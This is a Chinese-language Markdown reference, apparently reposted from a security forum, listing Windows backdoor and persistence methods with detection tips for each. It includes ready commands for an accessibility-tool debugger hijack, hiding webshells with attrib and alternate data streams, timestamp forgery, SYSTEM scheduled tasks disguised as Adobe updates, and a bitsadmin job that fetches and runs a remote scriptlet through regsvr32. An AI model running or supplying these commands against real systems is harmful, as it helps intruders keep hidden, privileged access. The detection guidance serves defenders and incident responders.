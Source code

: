 ## windows常见backdoor、权限维持方法及排查技术

### 什么是Persistence？ [^1]

### 常见backdoor和persistence方式方法

1. #### 系统工具替换后门 [^2]

   ```powershell
   # Image劫持辅助工具管理器（utilman.exe, 快捷键 Win + U）
   # 注册表更改命令详见 `reg.exe` 应用程序
   REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
   # 结果就是只要按键盘 Win + U 就可以打开 cmd 窗口，而不是辅助工具管理器窗口
   ```

   - 类似的程序有osk.exe（屏幕键盘程序）、Narrator.exe（讲述人程序）、Magnify.exe（放大镜程序）等
   - 优点：简单
   - 缺点：易被检测
   - 排查：工具autoruns [^3]

2. #### 文件隐藏

   1. ##### attrib命令隐藏 [^4]

      `attrib +r +s +h webshell.php`

      - 优点：简单

      - 缺点：暂无
      - 排查：使用 attrib 命令，dir 命令（`dir /a`) 或者D盾

   2. ##### 使用ADS流隐藏webshell

      `echo "hello world" > demo.c:flags.txt`

      `echo "hello" > :key.txt` [^5]

      `notepad demo.c:flags.txt`

      `type demo.c:flags.txt`

      - ```powershell
        # 此时应该注意修改文件的timestamp，可使用如下的powershell命令或者使用NewFileTime工具
        # $(Get-Item ).creationtime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastaccesstime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastwritetime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # example：
        # Set the last-access time for a file aaa.csv to the current time:  
        $(Get-Item aaa.csv).lastwritetime=$(Get-Date)
        # Set the creation time of a file foo.txt to November 24, 2015, at 6:00am: 
        $(Get-Item foo.txt).creationtime=$(Get-Date "11/24/2015 06:00 am")
        ```

      - 优点：较难检测
      - 缺点：暂无
      - 排查： `dir /r`
      - Ref : [利用ADS隐藏webshell](https://www.cnblogs.com/xiaozi/p/7610984.html) 、[Windows ADS在渗透测试中的妙用](https://www.freebuf.com/articles/terminal/195721.html)

3. #### 计划任务

   `schtasks /delete /tn "AdobeReaderUpdate" /f`

   `schtasks /create /ru "System" /tn "AdobeReaderUpdate" /sc Weekly /d * /st 18:00:00 /tr "powershell.exe C:\Windows\System32\drivers\en-US\etc\Line.ps1"`

   `SCHTASKS /Create /RU "SYSTEM" /tn "AdobeReaderUpdateEnd" /sc Weekly /d MON,TUE,WED,THU,FRI /st 06:00:00 /tr "powershell.exe Stop-Process -Name $processname"`

   `taskschd.msc`

   - 优点：简单
   - 缺点：易被检测
   - 排查： `schtasks /query `命令进行查询或者通过计算机的管理查看，注意在windows的中文版系统中，schtasks命令需要切换字符为美国英语格式，使用命令`chcp 437`，或者直接工具autoruns

4. #### 开机启动项

   ```powershell
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
   HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
   ...
   ```

   - 优点：重启权限维持
   - 缺点：一般杀软均会拦截
   - 排查：autoruns

5. #### 服务

   `sc create [ServerName] binPath= BinaryPathName`

   - 优点：重启权限维持
   - 缺点：一般杀软会拦截
   - 排查：工具autoruns

6. #### waitfor.exe

   - 不支持自启动，但可远程主动激活，后台进程显示为waitfor.exe
   - `certutil -encode infile outfile`
   - `certutil -decode infile outfile`
   - Ref : [详细参考](https://github.com/3gstudent/Waitfor-Persistence) 、[waitfor.md](waitfor.md) 
   - 优点：远程主动激活
   - 缺点：有waitfor进程
   - 排查：通过Process Explorer （procexp）工具查看是否有waitfor.exe进程，并进一步查看启动参数等

7. #### bitsadmin后门 [^6]

   ```powershell
   # 创建一个下载任务：
   bitsadmin /create backdoor
   # 添加文档：
   bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
   # 设置下载成功之后要执行的命令：
   bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
   # 执行任务：
   bitsadmin /Resume backdoor
   ```

   - Ref :  [bitsadmin.md](bitsadmin.md) 
   - 优点：系统自带无需上传
   - 缺点：免杀效果一般
   - 排查：`bitsadmin /list /verbose`

8. #### WMI后门

   - Ref: [参考文档](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)、[Powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/9e771d15bf19ab3c2ac196393c088ecdab6c9a73/Persistence/Persistence.psm1)
   - 优点：无文件，后门在系统重启五分钟之内触发且是system权限，相对来说难以排查
   - 缺点：暂无
   - 排查：工具autoruns

9. #### COM劫持

   - Ref: [freebuf](https://www.freebuf.com/articles/system/115241.html)、[CLR](https://www.4hou.com/technology/6863.html) 
   - 优点：隐藏性较好,autoruns查不到
   - 缺点：暂无
   - 排查：检查环境变量和注册表键值

10. #### meterpreter 权限维持 [^7]

  - `metsvc `是开机自启动的服务型后门
  - persistence模块是先上传vbs脚本并执行vbs脚本修改注册表`HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`从而完成自启动
  - Ref : [metsvc代码](https://github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/scripts/meterpreter/metsvc.rb)、[persistence代码](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/persistence_exe.rb)
  - 优点：开机自启动
  - 缺点：容易被杀软杀
  - 排查：autoruns

11. #### Empire persistence模块 [^8]

    - Ref ： [参考文章](https://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/)
    - 优点：基本集成了大部分的权限维持方法
    - 缺点：暂无
    - 排查：工具autoruns

12. #### 进程注入 [^9]

    - Ref : [Hunting empire](https://holdmybeersecurity.com/2019/02/27/sysinternals-for-windows-incident-response/)
    - 优点：较难排查
    - 缺点：暂无
    - 排查：工具process explorer 、process monitor

### other

- 还有像是dll劫持、一些软件的插件后门、office后门等
- 更多windows backdoor方面最新文章可以关注国外安全研究员Casey Smith@subTee和Adam@Hexacorn

[原文](https://xz.aliyun.com/t/4842)

---

[^1]: 持久化是指即使在创建它的进程停止或其运行的机器断电之后仍然存在的对象和进程特性。当一个对象或状态被创建并且需要持久时，它将保存在非易失性存储位置（如硬盘驱动器）中，而不是临时文件或易失性随机存取存储器（RAM）
[^2]: Windows提供了一个命令replace.exe，通过它我们可以替换系统文件
[^3]: Windows Sysinternals工具集里的一个软件，可显示在系统启动或登录期间配置要运行的程序，以及启动各种内置Windows应用程序
[^4]: windows自带命令行工具attrib用来显示或更改文件属性
[^5]: 编辑时需退到上级目录进行查看 `dir /r`，删除时需要将宿主文件删除或使用 WinHex工具或压缩后解压替换
[^6]: Bitsadmin从win7之后操作系统就默认包含，可以用来创建上传或者下载任务。Bistadmin可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行
[^7]: meterpreter中的权限维持技术有两种，一种是metsvc的后门(服务后门)，另外一种是persistence(注册表后门)
[^8]: Empire是一款功能非常强大的后渗透攻击框架。其中的persistence模块提供了一系列权限维持方法。工具还把权限维持分为了四大类，userland(普通权限)、elevated(需要高权限)、powerbreach(内存权限维持，重启后失效)、miscellaneous(其它)
[^9]: 准确来说进程注入不是后门技术或者权限维持技术，而是一种隐藏技术，这里简单说一下empire的psinject、cobaltstrike的inject和meterpreter中的migrate进程注入，一般可以注入到像是lsass或者explorer这样的进程当中，相对比较隐蔽，较难排查